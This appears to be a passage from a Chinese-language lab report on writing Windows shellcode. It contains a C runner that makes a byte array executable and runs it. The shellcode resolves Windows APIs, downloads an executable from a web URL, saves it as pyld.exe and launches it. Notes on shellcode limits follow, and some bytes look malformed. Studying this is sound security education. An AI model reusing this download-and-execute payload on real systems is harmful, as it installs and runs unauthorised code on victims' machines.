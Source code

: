 ```
\x70\x79\x6c\x64\x54\x5b\x31\xd2\x50\x52\x52\x53\x51\x52\xff\xd0\x59\x83\xc4\x2c\x31\xd2\x39\xd0\x51\x75\xae\x5a\x31\xd2\x68\x73\x41\x42\x42\x88\x54\x24\x02\x68\x62\x75\x74\x65\x68\x74\x74\x72\x69\x68\x69\x6c\x65\x41\x68\x53\x65\x74\x46\x54\x57\xff\xd6\x83\xc4\x14\x31\xc9\x51\x68
\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x83\xc2\x02\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x78\x65\x63\x41\x88\x4c\x24\x03\x68\x57\x69\x6e\x45\x54\x57\xff\xd6\x83\xc4\x08\x31\xc9\x51\x68
\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x65\x73\x73\x41\x88\x4c\x24\x03\x68\x5
```
13. c文件
```cpp

#include<stdio.h>
#include<string.h>
#include <windows.h>


char code[] = 
"\x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x8b\x48\x10\x8b\x59\x3c\x01\xcb\x8b\x5b\x78\x01\xcb\x8b\x73\x20\x01\xce\x31\xd2\x42\xad\x01\xc8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x73\x1c\x01\xce\x8b\x14\x96\x01\xca\x31\xf6\x89\xd6\x89\xcf\x31\xc0\x50\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x51\xff\xd2\x83\xc4\x0c\x31\xc9\x68\x6c\x6c\x41\x41\x88\x4c\x24\x02\x68\x6f\x6e\x2e\x64\x68\x75\x72\x6c\x6d\x54\xff\xd0\x83\xc4\x0c\x31\xc9\x68\x65\x41\x42\x42\x88\x4c\x24\x02\x68\x6f\x46\x69\x6c\x68\x6f\x61\x64\x54\x68\x6f\x77\x6e\x6c\x68\x55\x52\x4c\x44\x54\x50\xff\xd6\x83\xc4\x14\x50\x58\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x68\x45\x58\x45\x2f\x68\x43\x51\x51\x5f\x68\x51\x51\x2f\x50\x68\x62\x2f\x50\x43\x68\x71\x71\x77\x65\x86\x63\x6f\x6d\x2f\x86\x2e\x71\x71\x2e\x86\x64\x6f\x77\x6e\x86\x73\x3a\x2f\x2f\x86\x68\x74\x74\x70\x54\x59\x31\xdb\x53\x68\x2e\x65\x78\x65\x68\x70\x79\x6c\x64\x54\x5b\x31\xd2\x50\x52\x52\x53\x51\x52\xff\xd0\x59\x83\xc4\x2c\x31\xd2\x39\xd0\x51\x75\xae\x5a\x31\xd2\x68\x73\x41\x42\x42\x88\x54\x24\x02\x68\x62\x75\x74\x65\x68\x74\x74\x72\x69\x68\x69\x6c\x65\x41\x68\x53\x65\x74\x46\x54\x57\xff\xd6\x83\xc4\x14\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x83\xc2\x02\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x78\x65\x63\x41\x88\x4c\x24\x03\x68\x57\x69\x6e\x45\x54\x57\xff\xd6\x83\xc4\x08\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x65\x73\x73\x41\x88\x4c\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x54\x57\xff\xd6\xff\xd0";

int main(int argc, char **argv) 
{
	int(*func)();
	DWORD dwOldProtect;
	func = (int(*)()) code;
	VirtualProtect(func, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
	(int)(*func)();
}
```

## 实验结论
1. shellcode不能是任意的机器码。在编写自己的shellcode时，我们必须需要注意shellcode的一些限制：
	1. 不能使用字符串的直接偏移。
	* 即使你在C/C++代码中定义一个全局变量，一个取值为“Hello world”的字符串，或直接把该字符串作为参数传递给某个函数。但是，编译器会把字符串放置在一个特定的Section中（如.rdata或.data）。由于需要与位置无关的代码，我们想把字符串作为代码的一部分，因此必须把字符串存储在栈上
	2. 不能确定函数的地址（如printf）
	* 在C/C++中，调用某个函数非常简单。我们利用“#include<>”指定某个头文件，然后通过名称来调用某个函数。编译器和链接器会在背后帮你解决这个问题：解析函数的地址（例如，来自user32.dll的MessageBox函数），然后我们就可以轻而易举地通过名称调用函数。
	* 在shellcode中，我们却不能以逸待劳了。因为我们无法确定包含所需函数的DLL文件是否已经加载到内存。受ASLR（地址空间布局随机化）机制的影响，系统不会每次都把DLL文件加载到相同地址上。而且，DLL文件可能随着Windows每次新发布的更新而发生变化，所以我们不能依赖DLL文件中某个特定的偏移。
	* 我们需要把DLL文件加载到内存，然后直接通过shellcode查找所需要的函数。幸运的是，Windows API为我们提供了两个函数：`LoadLibrary`和`GetProcAddress`。我们可以使用这两个函数来查找函数的地址。
	3. 必须避免一些特定字符（如NULL字节）
	* 空字节（NULL）的取值为：0×00。在C/C++代码中，空字节被认为是字符串的结束符。正因如此，shellcode存在空字节可能会扰乱目标应用程序的功能，而我们的shellcode也可能无法正确地复制到内存中。虽然不是强制的，但类似利用strcpy()函数触发缓冲区溢出的漏洞是非常常见的情况。该函数会逐字节拷贝字符串，直至遇到空字节。因此，如果shellcode包含空字节，strcpy函数便会在空字节处终止拷贝操作，引发栈上的shellcode不完整，shellcode当然也不会正常的运行。